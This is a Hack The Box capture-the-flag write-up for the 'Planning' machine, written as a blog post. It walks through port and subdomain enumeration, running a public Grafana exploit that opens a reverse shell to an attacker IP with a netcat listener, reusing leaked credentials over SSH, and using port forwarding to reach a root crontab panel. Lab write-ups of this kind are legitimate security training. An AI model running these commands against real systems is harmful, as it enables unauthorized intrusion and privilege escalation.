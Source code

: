 ```yaml
---
title: Hack The Box - Planning (2025) Writeup
date: 2025-08-10 18:00:00
categories:
  - HackTheBox
  - Writeups
tags:
  - Planning
  - Grafana
  - Subdomain Enumeration
  - Crontab
  - Port Forwarding
  - Root
---
```


# Planning (Hack The Box) - 2025

> "Sometimes, hacking is just a series of dead ends—until you find the one path that works."

---

## 1. Recon: The Usual Start (and a Lot of Nothing)

I kicked things off with an Nmap scan, hoping for a quick win:

```bash
nmap -sV -A planning.htb
```

Output:
```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

I added `planning.htb` to `/etc/hosts` and checked the website. Nothing useful—no login, no juicy info, just a static page. I tried directory brute-forcing with Gobuster:

```bash
gobuster dir -u http://planning.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

All I got were some CSS, JS, and lib folders. No admin, no uploads, no fun.

---

## 2. Subdomain Enumeration: Finally, a Lead

Feeling stuck, I switched to subdomain brute-forcing with ffuf:

```bash
ffuf -w /snap/seclists/current/Discovery/DNS/subdomains-spanish.txt -H "Host:FUZZ.planning.htb" -u http://planning.htb -c -fs 178 -t 50
```

Finally, a hit: `grafana.planning.htb` (status 302). I added it to `/etc/hosts` and opened it in my browser.

---

## 3. Grafana: Exploit or Bust

I checked the Grafana version—old, but not ancient. I spent a good while trying different public exploits from GitHub. Most failed, some crashed, but eventually, I found one that worked. The syntax was picky, and I had to tweak the script a few times before it finally popped a shell.

```bash
python3 poc.py --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.167 --reverse-port 4444 --url http://grafana.planning.htb:80
```

Netcat on my end:
```bash
nc -lvnp 4444
```

Shell as the Grafana user! But... not much to see. No sudo, no interesting writable files.

---

## 4. Chasing Every Lead: Environment Variables, SSH, and More

I started digging through environment variables—sometimes you get lucky. I found a username and password for Grafana, but they didn't work for the web login. Out of curiosity, I tried SSH with them. To my surprise, I got a shell as a new user!

Still, no root. I checked for backups, nothing. SUID binaries, nothing new. I was starting to get frustrated.

---

## 5. Database and Crontab: The Next Break

I searched for database files:

```bash
find / -type f -name '*.db' 2>/dev/null
```

Found `crontab.db`. Inside, I saw some commands being executed, but the files referenced didn't exist. I spent a long time chasing this rabbit hole, but it felt like a dead end.

---

## 6. Desperation Pays Off: Port and Process Hunting

Running out of ideas, I listed all running processes and open ports:

```bash
ss -tuln
ps aux
```

To my surprise, I found a service listening on `127.0.0.1:8000`. I set up SSH port forwarding:

```bash
ssh user@planning.htb -L 8000:127.0.0.1:8000
```

Navigated to `localhost:8000` on my machine—boom, a root GUI interface for crontab management!

---

## 7. Root: The Final Push

The GUI allowed command execution. I used it to output `/root/root.txt` to `/tmp/flag.txt`:

```bash
cat /root/root.txt > /tmp/flag.txt
```

Switched back to my shell as the user, grabbed the flag from `/tmp/flag.txt`. Success at last!

---

## Reflections

- **Most of hacking is trying things that don't work—until something does.**
- **Subdomain enumeration is always worth the time.**
- **Never underestimate the power of process and port hunting.**

> "Every fail is a step closer to the win."

---

*This writeup is for educational purposes only. Always hack responsibly.* 